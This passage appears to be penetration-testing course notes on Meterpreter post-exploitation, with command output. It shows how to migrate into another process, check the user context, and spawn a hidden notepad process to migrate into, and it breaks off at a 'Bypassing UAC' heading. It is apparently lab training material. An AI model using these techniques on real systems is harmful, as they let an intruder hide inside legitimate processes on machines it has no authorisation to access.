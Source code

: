 Migrating to OnDrive.exe process
```hlt:1
meterpreter > migrate 8052
[*] Migrating from 2552 to 8052...
[*] Migration completed successfully.

meterpreter > ps


Process List
============

 PID   PPID  Name                         Arch  Session  User                Path
 ---   ----  ----                         ----  -------  ----                ----
...
 2440   668   svchost.exe
 2472   668   svchost.exe
 2496   668   svchost.exe
 2568   668   svchost.exe
 2624   668   spoolsv.exe
 2660   668   svchost.exe
 2784   668   svchost.exe
 2928   668   svchost.exe
```

This process migration will also switch our userid if PID is owned by another user.

Command execution as user offsec instead of NT AUTHORITY\SYSTEM

```
meterpreter > getuid
Server username: ITWK01\offsec
```

If no processes to migrate to...use execute command

#### execute - create new process
Start hidden notepad process 
```
meterpreter > execute -H -f notepad
Process 2720 created.
```

Migrate to new process
```
meterpreter > migrate 2720
[*] Migrating from 8052 to 2720...
[*] Migration completed successfully.

meterpreter > 
```

### Post-Exploitation Modules
#### Bypassing UAC
